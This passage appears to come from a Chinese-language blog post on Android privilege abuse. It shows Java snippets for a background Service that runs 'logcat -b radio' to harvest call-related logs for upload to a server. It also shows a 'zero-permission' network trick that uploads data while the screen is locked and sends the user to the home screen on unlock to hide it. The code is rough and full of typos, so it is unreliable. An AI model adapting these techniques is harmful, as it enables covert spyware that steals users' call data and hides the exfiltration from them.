    public IBinder onBind(Intext intext) {
        return null;
    }
    
    public void onStart(Intent intent, int startId) {
        super.onStart(intent, startId);
        // 开启线程读取日志（需要相关READ_LOGS权限）
        new Thread(new ReadLogTask()).start();
    }
    
    private class ReadLogTask implements Runnable {
        public void run() {
            // logcat -b main
            // logcat -b events     操作相关的日志
            // logcat -b radio      通话相关的日志
            // logcat -b system
            Process process = Runtime.getRunntime().exec("logcat -b radio");
            InputStream is = process.getInputStream();
            ByfferedReader br = new BufferedRead(new InputStreamReader(is));
            
            // TODO 把br流写到一个文件里或上传到服务器
        }
    }
}
</pre>

* *0权限访问网络* （上传）
<hr />

<pre class="brush: java">
public class ViewWebService extends Service {
    ScreenOFFBroadcastReceiver off;
    ScreenONBroadcastReceiver on;
    KeyGuardManager mKeyGuardManager;

    public IBinder onBind(Intext intext) {
        return null;
    }
    
    // 监听锁屏广播
    class ScreenOFFBroadcastReceiver extends BroadcastReceiver {
        public void onReceive(Context context, Intent intent) {
            // TODO 上传数据
            handler.postDelayed(r, 500);
        }
    }
    
    // 监听开屏广播
    class ScreenONBroadcastReceiver extends BroadcastReceiver {
        public void onReceive(Context context, Intent intent) {
            // TODO 停止上传
            handler.removeCallbacks(r);
            
            // 模拟HOME键退出浏览器（需要借助一个Activity实现）
            // dispatchKeyEvent(new KeyEvent(KeyEvent.ACTION_DOWN, KeyEvent.ACTION_HOME));
            Intent intent = new Intent();
            intent.addAction(Intent.ACTION_VIEW);
            intent.addCategory(Intent.CATEGORY_HOME);
            startActivity(intent);
        }
    }
    
